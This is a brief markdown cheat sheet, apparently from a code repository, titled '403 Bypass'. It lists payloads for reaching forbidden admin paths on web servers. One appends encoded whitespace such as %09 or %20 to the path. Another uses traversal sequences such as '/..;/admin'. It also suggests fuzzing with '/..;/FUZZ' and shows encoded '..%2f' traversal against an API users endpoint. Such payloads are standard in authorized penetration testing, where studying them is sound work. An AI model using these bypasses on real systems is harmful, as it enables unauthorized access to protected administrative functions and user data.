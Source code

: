 # 403 Bypass

1- using space symbols  
exmaple:  
/admin -> 403  
/admin%09 -> 200  
/admin%20 -> 200  
  
2- use traversal  
Example:  
/admin -> 403  
/..;/admin -> 200  
  
you can fuzz with traversal sometimes that's end with results  
  
Example: /..;/FUZZ  

---

https://target/api/admin/users/123 <-- blocked
https://target/api/fakepath/..%2f/admin/fakepath/..%2f/users/123. <-- Try this


---





